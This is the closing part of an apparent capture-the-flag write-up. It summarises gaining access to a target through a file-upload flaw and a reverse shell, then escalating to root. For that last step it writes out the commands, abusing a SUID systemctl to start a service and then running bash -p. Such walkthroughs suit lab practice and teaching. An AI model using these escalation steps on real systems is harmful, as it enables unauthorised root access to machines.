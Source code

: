 
## Conclusion

- I started with reconnaissance to identify open services.
- I found an upload vulnerability in the web app, exploited it to upload a reverse shell, and gained access as `www-data`.
- From there, I performed privilege escalation using SUID binaries to become root.

---

## Information Related to Execute Root Shell

### Sequence of Commands

1. **Link the service**:

```bash
/bin/systemctl link $TF
```

2. **Enable and start the service**:

```bash
/bin/systemctl enable --now $TF
```

3. **Run `bash` with SUID privileges**:

```bash
/bin/bash -p
```

This should give you a root shell (`bash-4.3#`), where you can perform privileged actions.
